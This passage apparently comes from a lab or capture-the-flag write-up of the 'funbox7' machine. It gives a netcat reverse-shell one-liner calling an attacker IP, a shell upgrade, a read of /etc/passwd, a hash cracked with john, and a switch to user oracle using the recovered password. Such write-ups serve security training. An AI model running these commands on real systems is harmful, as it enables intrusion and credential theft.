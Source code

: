 ```
</body>
</html>
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/add10e6c-5c6b-4059-a264-d24521e4da30)
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/98c5648f-8d9d-4bbe-8361-315dbc58b2f5)

Netcat Reverse Shell
Execute:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.194 80 >/tmp/f
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/64422833-563a-4df4-88f3-cc1235614da4)

```
> rlwrap nc -nlvvp 80
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/0dac6902-0627-447a-8f9e-58f1299a2ee5)

Upgrade Shell
```
$ /usr/bin/script -qc /bin/bash /dev/null
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/c7127e55-a484-4e78-bb5c-a577d89d1fbf)

```
www-data@funbox7:/var/www/html$ cat /etc/passwd
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/900e0fa2-c796-4c98-a8f3-a0a3cc36e246)
```
$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0
```

Crack the hash
```
> john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/1e25891b-54f4-4a57-9885-9d2edf71ffa2)

Switch user to Oracle
```
www-data@funbox7:/var/www/html$ su oracle
su oracle
Password: hiphop
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/7c133ed9-197b-425d-ba10-c2dcc8ed3d9a)

Nothing interesting found, switching back as www-data.

```
www-data@funbox7:/$ cd /etc/phpmyadmin
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/213173c3-f12d-48ba-b415-54e07ca33a87)
